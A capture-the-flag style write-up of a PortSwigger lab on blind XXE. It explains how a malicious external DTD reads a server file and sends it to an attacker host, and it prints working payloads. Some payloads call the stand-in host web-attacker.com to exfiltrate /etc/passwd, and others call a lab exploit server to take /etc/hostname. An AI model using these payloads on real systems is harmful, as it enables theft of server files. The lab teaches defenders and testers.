 ## Exploiting blind XXE to exfiltrate data using a malicious external DTD

**Title:** Exploiting blind XXE to exfiltrate data using a malicious external DTD. [Go](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

**Description:**
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

## Preface

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:

``` XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:
`http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:
``` XML
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attacker's server.

**Note**
This technique might not work with some file contents, including the newline characters contained in the `/etc/passwd` file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.

## Methodology

### Finding the vulnerable parameter

At first we stored the malicious DTD file in our exploit server by clicking `Go to exploit server`. We made a note of the URL by clicking  `View exploit`. 

``` XML
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0aba0011039dfa3383e9908a01460074.exploit-server.net/exploit/?x=%file;'>">
%eval;
%exfiltrate;
```

Then we need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, we visited a product page and clicked "Check stock", and intercepted the resulting POST request in Burp Suite. We inserted the following external entity definition in between the XML declaration and the `stockCheck` element:
``` XML 
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aba0011039dfa3383e9908a01460074.exploit-server.net/exploit"> %xxe;]>
```
At last we sent the request and the response shows `XML parsing error`. Then we checked the access log of our exploit server. While checking the log file of our exploit server we are interested in `GET /exploit/?x` request.

![poc_store_the_payload.png](../images/store_the_payload.png)

![poc_xml_request.png](../images/xml_request.png)

![poc_final_result.png](../images/final_result.png)

